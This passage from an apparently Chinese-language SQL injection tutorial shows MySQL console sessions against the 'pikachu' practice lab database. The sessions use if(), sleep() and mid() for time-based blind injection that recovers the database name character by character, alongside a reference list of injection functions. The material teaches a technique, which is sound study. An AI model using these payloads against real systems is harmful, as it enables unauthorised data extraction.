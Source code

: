 ```bash
|                              123 |
+----------------------------------+
1 row in set (0.00 sec)

mysql> select if(database()='test',123,456);
+-------------------------------+
| if(database()='test',123,456) |
+-------------------------------+
|                           456 |
+-------------------------------+
1 row in set (0.00 sec)

mysql>

```
<a name="SWfV8"></a>
#### 3、if+sleep语句
```bash
mysql> select * from member where id=1 and sleep(if(database()='pikachu',5,0));
Empty set (5.00 sec)

mysql>

```
语句的意思就是如果数据是pikachu就延迟5秒输出，不是的话就立即返回，但是在实际渗透过程中由于受到网络的影响时间注入不是很靠谱，
```bash
参考:
like 'ros'									#判断ro或ro...是否成立
regexp '^xiaodi [a-z]'			#匹配xiaodi及xiaodi...等if(条件,5,0)
sleep (5)										#sQL语句延时执行s秒
mid (a, b, c)								#从位置b开始，截取a字符串的c位
substr( a,b, c)							#从b位置开始，截取字符串a的c长度
left (database(),1), database() #left(a,b)从左侧截取a的前b位
length(database ())=8				#判断数据库database ()名的长度
ord=ascii ascii(x)=97 			#判断x的ascii码是否等于97

```
<a name="QxBUX"></a>
#### 4、if+mid+sleep
判断数据库名称是不是以p开头如果是的话就延迟五秒输出。
```bash
mysql> select database();
+------------+
| database() |
+------------+
| pikachu    |
+------------+
1 row in set (0.00 sec)
mysql> select * from users where id=1 and sleep(if(mid(database(),1,1)='p',5,0));
Empty set (5.00 sec)
```
<a name="FfWWx"></a>
### 四、布尔盲注
